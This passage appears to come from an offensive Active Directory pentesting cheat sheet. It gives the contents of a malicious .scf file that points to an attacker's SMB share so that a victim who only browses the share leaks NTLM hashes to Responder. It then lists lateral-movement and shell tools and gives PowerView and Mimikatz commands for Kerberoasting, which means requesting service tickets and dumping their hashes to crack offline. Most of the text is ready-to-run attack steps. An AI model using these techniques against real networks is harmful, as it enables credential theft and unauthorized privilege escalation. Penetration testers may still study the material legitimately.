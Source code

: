   ```
  [Shell]
  Command=2
  IconFile=\\<AttackersIp>\Share\test.ico
  [Taskbar]
  Command=ToggleDesktop
  ```

Putting these files in a writeable share the victim only has to open the file explorer and navigate to the share. **Note** that the file doesn't need to be opened or the user to interact with it, but it must be on the top of the file system or just visible in the windows explorer window in order to be rendered. Use responder to capture the hashes.

:exclamation: .scf file attacks won't work on the latest versions of Windows.

### Useful Tools

- [Powercat](https://github.com/besimorhino/powercat) netcat written in powershell, and provides tunneling, relay and portforward
  capabilities.
- [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) fileless lateral movement tool that relies on ChangeServiceConfigA to run command
- [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) the ultimate WinRM shell for hacking/pentesting
- [RunasCs](https://github.com/antonioCoco/RunasCs) Csharp and open version of windows builtin runas.exe
- [ntlm_theft](https://github.com/Greenwolf/ntlm_theft.git) creates all possible file formats for url file attacks

## Domain Privilege Escalation

### Kerberoast

_WUT IS DIS?:_ \
 All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user"  
 account, extract the encrypted blob that was encrypted using the user's password and bruteforce it offline.

- PowerView:

  ```powershell
  #Get User Accounts that are used as Service Accounts
  Get-NetUser -SPN

  #Get every available SPN account, request a TGS and dump its hash
  Invoke-Kerberoast

  #Requesting the TGS for a single account:
  Request-SPNTicket

  #Export all tickets using Mimikatz
  Invoke-Mimikatz -Command '"kerberos::list /export"'
  ```
